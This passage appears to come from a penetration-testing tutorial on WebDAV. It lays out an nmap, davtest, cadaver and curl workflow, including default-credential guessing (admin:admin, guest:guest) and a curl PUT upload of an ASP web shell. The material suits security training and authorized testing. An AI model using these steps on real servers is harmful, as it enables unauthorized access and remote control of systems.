 ### **❌ Issue 4: Permission Denied Errors**
**Symptoms:**
- Can upload files but cannot create directories
- MKCOL operations fail

**Solutions:**
```bash
# Skip directory creation and test in root
davtest -nocreate -auth creds -url http://target/webdav

# Try with different directory names
davtest -directory simple -auth creds -url http://target/webdav
```

---

## 🔗 Tool Integration & Advanced Workflows

### **🎯 Primary Integration Workflow: Nmap → DavTest → Cadaver → Browser**

#### **Phase 1: Discovery (Nmap)**
```bash
# Comprehensive service discovery
nmap -sV -p 80,8080,443,8443 --script http-enum,http-methods target_ip

# Look for WebDAV indicators in output:
# - "WebDAV" in service descriptions
# - HTTP methods: PUT, PROPFIND, MKCOL
# - Directory listings with /webdav paths
```

#### **Phase 2: Assessment (DavTest)**
```bash
# Based on nmap findings, test identified WebDAV paths
davtest -url http://target_ip/discovered_webdav_path

# If authentication required, try common credentials
davtest -auth admin:admin -url http://target_ip/webdav
davtest -auth guest:guest -url http://target_ip/webdav

# Full assessment with discovered credentials
davtest -auth found_creds -url http://target_ip/webdav
```

#### **Phase 3: Exploitation (Cadaver + Custom Payloads)**
```bash
# Based on davtest results showing ASP execution capability
cadaver http://target_ip/webdav
# Interactive upload of web shells

# Alternatively, direct upload with curl
curl -X PUT --data-binary @webshell.asp http://username:password@target/webdav/shell.asp
```
